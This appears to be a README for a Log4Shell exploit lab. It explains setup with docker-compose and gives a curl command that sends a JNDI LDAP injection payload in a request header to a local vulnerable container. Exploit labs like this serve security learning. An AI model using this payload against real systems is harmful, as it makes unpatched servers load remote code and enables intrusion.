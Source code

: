 # log4shell exploit lab

This repository is a single-line setup for log4shell exploit lab.

Setup the lab: `docker-compose up -d`

Run exploit: `curl -X GET http://localhost:8080/ -H "X-Api-Version: ${jndi:ldap://my_ldap_server:1389/a}"`

Then go to `vul` container and see that indeed we pwned the machine:

![](README-resources/Screenshot%202023-11-30%20205423.png)
